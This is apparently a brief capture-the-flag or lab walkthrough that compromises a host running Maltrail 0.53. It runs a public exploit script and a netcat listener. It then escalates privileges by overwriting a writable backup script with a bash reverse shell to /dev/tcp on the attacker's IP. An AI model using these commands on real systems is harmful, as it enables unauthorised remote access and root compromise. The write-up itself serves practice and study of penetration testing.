




Using this [exploit](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main) for Maltrack 0.53  but it might work on 0.52:
```
python3 exploit.py 192.168.45.229 8338 http://192.168.182.32:8338
```
Setting up a listener:
```
sudo rlwrap -nlvp 8338
```


Running pspy64:

Checking permissions for etc_Backup.sh:

We can write to it.

```
echo '#!/bin/bash' > etc_Backup.sh
echo 'bash -i >& /dev/tcp/192.168.45.229/80 0>&1' >> etc_Backup.sh
```

Now we get a shell:

We used penelope to catch the shell in this image.

